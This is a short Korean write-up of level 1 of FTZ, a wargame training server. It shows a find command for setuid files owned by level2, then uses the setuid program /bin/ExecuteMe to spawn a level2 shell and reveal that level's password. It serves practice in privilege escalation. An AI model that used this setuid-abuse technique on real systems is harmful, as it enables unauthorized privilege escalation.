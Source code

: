 ```yaml
---
title: FTZ 1번 Write-up
date: 2017-8-20 23:17:00
categories: FTZ
---
```


## FTZ 1번

1번에 접속한 후 hint라는 파일을 열면 level2권한에 setuid가 걸린 파일을 찾으랜다.

    login as: level1
    level1@192.168.42.134's password:
    [level1@ftz level1]$ ls
    hint  public_html  tmp
    [level1@ftz level1]$ cat hint
    
    
    level2 권한에 setuid가 걸린 파일을 찾는다.

### find 명령어
find명령어를 사용해서 `find / -user level2 -perm +4000 2>/dev/null`이렇게 입력하면 됩니다.  `-perm +4000`은 setuid가 걸린 파일을 찾는 구문입니다. 숫자 4자리는 각각 setuid/setreuid/stickybit, 소유자 권한, 그룹 권한, others 권한을 의미한다. `2>dev/null` 은 쓰레기 값을 출력하지 않도록 하는 명령어이다. 1은 파일을 찾았을 경우, 2는 디렉토리에 파일이 없을 경우이다. /dev/null은 쓰레기통으로 생각하면 된다.

    [level1@ftz level1]$ find / -user level2 -perm +4000 2>/dev/null
    /bin/ExecuteMe

그럼 실행해보자.

    [level1@ftz level1]$ /bin/ExecuteMe
    
    
    
                    레벨2의 권한으로 당신이 원하는 명령어를
                    한가지 실행시켜 드리겠습니다.
                    (단, my-pass 와 chmod는 제외)
    
                    어떤 명령을 실행시키겠습니까?
    
    
                    [level2@ftz level2]$ bash
    
    
    [level2@ftz level2]$ id
    uid=3002(level2) gid=3001(level1) groups=3001(level1)
    [level2@ftz level2]$ my-pass
    
    Level2 Password is "hacker or cracker".

뚫었다.